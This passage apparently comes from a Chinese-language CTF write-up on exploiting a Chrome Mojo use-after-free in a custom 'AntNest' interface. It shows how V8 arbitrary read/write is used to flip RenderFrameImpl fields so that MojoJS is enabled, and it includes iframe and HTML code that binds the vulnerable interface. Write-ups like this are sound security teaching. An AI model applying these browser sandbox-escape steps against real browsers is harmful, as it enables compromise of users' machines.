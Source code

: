 然而该对象不会随着`render_frame_host_`对象的销毁而销毁，这意味着即使`render_frame_host_`被释放了,其指针仍然在`AntNestImpl`对象中，我们仍然可以对其相关函数进行调用，这就造成了UAF。

### <a class="reference-link" name="%E5%BC%80%E5%90%AFMojo%E5%8A%9F%E8%83%BD"></a>开启Mojo功能

正常情况下，`chrome`启动时是没有开启`Mojo`支持的，除非启动时加上选项`--enable-blink-features=MojoJS`，开启`Mojo`的判断逻辑如下

```
void RenderFrameImpl::DidCreateScriptContext(v8::Local&lt;v8::Context&gt; context,
                                             int world_id) `{`
  if (((enabled_bindings_ &amp; BINDINGS_POLICY_MOJO_WEB_UI) ||
       enable_mojo_js_bindings_) &amp;&amp;
      IsMainFrame() &amp;&amp; world_id == ISOLATED_WORLD_ID_GLOBAL) `{`
    // We only allow these bindings to be installed when creating the main
    // world context of the main frame.
    blink::WebContextFeatures::EnableMojoJS(context, true);
  `}`
```

从中可以看出，只有`main frame`才可以支持`Mojo`，判断`main frame`是通过`IsMainFrame`函数来判断，实质就是`frame`对象中的一个字段，可以用任意地址读写将其修改为`1`，即可满足这一个条件，然而第二个条件就是`enable_mojo_js_bindings_`为真或者`enabled_bindings_`为`BINDINGS_POLICY_MOJO_WEB_UI`，即`2`，由于我们在V8方面已经可以任意地址读写，只需修改相关`RenderFrameImpl`对象中的一些字段，然后在js层使用`window.location.reload();`重新加载页面，即可开启Mojo。一个网页中可能会用多个`RenderFrameImpl`对象，我们可以使用如下方法在一个网页中添加一个`iframe`，其对应着`RenderFrameImpl`对象。

```
var iframe = document.createElement("iframe");
      iframe.src = "child.html";
      document.body.appendChild(iframe);
```

其中`child.html`内容如下

```
&lt;\html&gt;
    &lt;\script type="text/javascript" src="/mojo_bindings.js"&gt;&lt;\/script&gt;
    &lt;\script src="/third_party/blink/public/mojom/ant_nest/ant_nest.mojom.js"&gt;&lt;\/script&gt;
    &lt;\script src="/enable_mojo.js"&gt;&lt;\/script&gt;
    &lt;\script&gt;
        if (checkMojo())  `{`
           antNestPtr = new antctf.mojom.AntNestPtr();
           Mojo.bindInterface(antctf.mojom.AntNest.name,
                mojo.makeRequest(antNestPtr).handle, "context", true);
           antNestPtr.store("aaaabbbb");
        `}` else `{`
           enable_mojo();
           window.location.reload();
        `}`
    &lt;\/script&gt;
&lt;\/html&gt;
```

这些`RenderFrameImpl`对象，通过`g_frame_map`存储，这是一个全局变量，其定义如下

```
typedef std::map&lt;blink::WebFrame*, RenderFrameImpl*&gt; FrameMap;
base::LazyInstance&lt;FrameMap&gt;::DestructorAtExit g_frame_map =
    LAZY_INSTANCE_INITIALIZER;
```
